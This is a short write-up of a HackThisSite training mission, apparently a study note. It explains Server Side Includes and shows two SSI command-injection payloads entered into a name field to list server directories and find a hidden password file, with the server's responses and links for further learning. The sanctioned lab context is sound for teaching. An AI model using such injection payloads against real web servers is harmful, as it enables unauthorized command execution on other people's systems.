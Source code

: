 # Description: 

Sam remains confident that an obscured password file is still the best idea, but he screwed up with the calendar program. Sam has saved the unencrypted password file in /var/www/hackthissite.org/html/missions/basic/8/

The password is yet again hidden in an unknown file. Sam's daughter has begun learning PHP, and has a small script to demonstrate her knowledge. Requirements: Knowledge of SSI (dynamic html executed by the server, rather than the browser)

SSI = Server Side Includes

SSI is a simple interpreted server-side scripting language used almost exclusively for the World Wide Web which allow us to execute commands using html that is executed by the server side, with that all we need to do is:  

# Steps to solve
## 1. Command used to solve:
`<!--#exec cmd="ls"-->`

## Response

path: hackthissite.org/html/missions/basic/8/tmp/randomfile.shtml
body: Hi, tshngmww.shtml hipykpqu.shtml ztxdhjxn.shtml avpfeoie.shtml fviqpmaw.shtml kqbybdzc.shtml dzrnmzgx.shtml npcsygfl.shtml whqxxojt.shtml ylomcmvu.shtml uhdppswp.shtml gzntiicx.shtml dzwbqiuu.shtml qvzuieng.shtml smcerykh.shtml qjhnmhmq.shtml znodwztr.shtml! Your name contains 254 characters.

Since the password file is in /var/www/hackthissite.org/html/missions/basic/8/ it means that is in a superior folder from the first response, so we need to go back to this folder and list its content, with that all we need to use is `ls ..`

# 2. Command used to solve
`<!--#exec cmd="ls .."-->`

## response 
path: https://www.hackthissite.org/missions/basic/8/tmp/fmspaphe.shtml
body: Hi, au12ha39vc.php index.php level8.php tmp! Your name contains 39 characters.

# 3. make request to file to see its content
https://www.hackthissite.org/missions/basic/8/{file.php}


# What did we learnt?
- the /var/www/ folder is used to host web content and pages when using apache servers
- 

# Questions / Objectives 
- How the server process our command in html and return the result in page?
- Create a web server witch process SSI (Server Side Includes)
- Create a web server witch process CGI (Common Gateway Interface)

# important links:

- https://en.wikipedia.org/wiki/Server_Side_Includes
- http://httpd.apache.org/docs/current/howto/ssi.html
- https://nginx.org/en/docs/http/ngx_http_ssi_module.html

# Related Interesting links:

- https://en.wikipedia.org/wiki/Common_Gateway_Interface (CGI)
